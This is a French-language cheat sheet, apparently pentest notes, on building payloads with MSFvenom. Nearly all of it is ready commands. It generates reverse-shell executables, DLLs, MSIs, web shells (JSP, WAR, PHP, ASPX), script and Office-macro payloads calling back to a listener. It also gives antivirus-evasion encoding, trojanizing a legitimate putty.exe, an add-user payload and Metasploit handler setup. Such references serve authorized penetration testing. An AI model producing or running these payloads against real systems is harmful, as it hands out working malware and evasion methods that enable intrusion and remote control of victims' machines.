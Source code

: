 # Création avec MSFvenom

MSFvenom est un outil puissant qui combine les fonctionnalités de Msfpayload et Msfencode. Il permet de générer des payloads encodés pour contourner les systèmes de détection.

## Concepts Fondamentaux

### Staged vs Stageless

**Payloads Staged** (`windows/shell/reverse_tcp`)
- Envoi d'un petit "stager" initial
- Téléchargement du payload complet en second temps
- Plus léger, mais nécessite une connexion stable
- Format: `<plateforme>/<shell>/<transport>`

**Payloads Stageless** (`windows/shell_reverse_tcp`)
- Envoi du payload complet en une fois
- Fonctionne dans des environnements plus restrictifs
- Plus lourd mais plus fiable
- Format: `<plateforme>/<shell>_<transport>`

### Lister les Payloads Disponibles

```bash
# Lister tous les payloads
msfvenom -l payloads

# Filtrer par type
msfvenom -l payloads | grep "windows"
msfvenom -l payloads | grep "reverse_tcp"
```

## Création de Payloads pour Différentes Plateformes

### Linux

```bash
# Stageless reverse shell ELF binaire
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f elf > shell.elf

# Stageless reverse shell - Format C
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c > shell.c

# Utilisateur Linux
msfvenom -p linux/x64/adduser USER=hacker PASS=password -f elf > adduser.elf
```

### Windows

```bash
# Stageless reverse shell - Exécutable
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe > shell.exe

# Staged reverse shell - Exécutable
msfvenom -p windows/x64/shell/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe > staged-shell.exe

# Encodage pour éviter les détections (plusieurs passes)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -e x64/shikata_ga_nai -i 10 -f exe > encoded-shell.exe

# Format DLL
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f dll > shell.dll

# Format MSI (Windows Installer)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f msi > shell.msi
```

### Web Payloads

```bash
# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f raw > shell.jsp

# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f war > shell.war

# PHP
msfvenom -p php/reverse_php LHOST=10.10.10.10 LPORT=443 -f raw > shell.php

# ASP
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f asp > shell.asp

# ASPX
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f aspx > shell.aspx
```

### Payloads Scriptes

```bash
# Python
msfvenom -p cmd/unix/reverse_python LHOST=10.10.10.10 LPORT=443 -f raw > shell.py

# Bash
msfvenom -p cmd/unix/reverse_bash LHOST=10.10.10.10 LPORT=443 -f raw > shell.sh

# Perl
msfvenom -p cmd/unix/reverse_perl LHOST=10.10.10.10 LPORT=443 -f raw > shell.pl

# PowerShell
msfvenom -p cmd/windows/powershell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f raw > shell.ps1
```

### Scripts pour Office/Macro

```bash
# Macro VBA pour Office
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f vba -o macro.vba

# HTA (HTML Application)
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f hta-psh > shell.hta
```

## Encodage et Contournement

### Options d'Encodage

```bash
# Lister les encodeurs disponibles
msfvenom -l encoders

# Shikata Ga Nai (populaire pour Windows)
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -e x86/shikata_ga_nai -i 9 -f exe > encoded.exe

# Éviter les mauvais caractères
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -b "\x00\x0a\x0d" -f exe > no-badchars.exe
```

### Techniques Avancées

```bash
# Ajout d'un template (binaire légitime)
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -x /path/to/putty.exe -f exe > putty-trojan.exe

# Intégration dans des formats non suspicieux
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -e x86/shikata_ga_nai -i 9 -f vbs -o convincing-doc.vbs
```

## Utilisation avec Metasploit Framework

### Gestionnaire multi/handler

```bash
# Configuration dans msfconsole
use exploit/multi/handler
set PAYLOAD <payload_matching_generated>
set LHOST 10.10.10.10
set LPORT 443
run
```

### Exécution automatisée

```bash
# Création d'un script RC
echo "use exploit/multi/handler" > handler.rc
echo "set PAYLOAD windows/x64/shell_reverse_tcp" >> handler.rc
echo "set LHOST 10.10.10.10" >> handler.rc
echo "set LPORT 443" >> handler.rc
echo "run -j" >> handler.rc

# Exécution
msfconsole -r handler.rc
```

## Astuces Pratiques

1. **Désactiver le handler MSF après utilisation** pour libérer le port
2. **Tester les payloads dans un environnement contrôlé** avant déploiement
3. **Utiliser des formats appropriés à la cible** (exe pour Windows, elf pour Linux)
4. **Varier les ports** (443, 80, 53) pour éviter les filtres réseau
5. **Signature Check**: `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe -o shell.exe && virustotal-cli shell.exe`